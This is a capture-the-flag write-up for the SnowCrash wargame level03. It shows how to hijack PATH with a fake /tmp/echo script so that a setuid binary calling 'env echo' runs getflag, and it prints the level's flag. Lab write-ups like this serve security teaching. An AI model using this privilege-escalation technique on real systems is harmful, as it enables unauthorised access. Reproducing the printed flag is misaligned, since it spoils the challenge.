 ### Level03

Once in the home of level03, we can see :

```
level03@SnowCrash:~$ ls -l
total 12
-rwsr-sr-x 1 flag03 level03 8627 Mar 5 2016 level03
level03@SnowCrash:~$ ./level03
Exploit me
```

If you look at ./level3 with strings you can see a call to echo :

> /usr/bin/env echo Exploit me

We can override the PATH variable to point to a directory with our custom version of echo and since echo is executed using env, it isn't treated as a built-in.

Having access to tmp I start by adding it in the path with the command: `PATH=/tmp:$PATH`.

Then I will create a new file containing the path of the getflag and I give it the rights: `echo "/bin/getflag" > /tmp/echo; chmod +x /tmp/echo`.

Now when I run `./level03` I get the flag `qi0maab88jaj46qoumi7maus`.
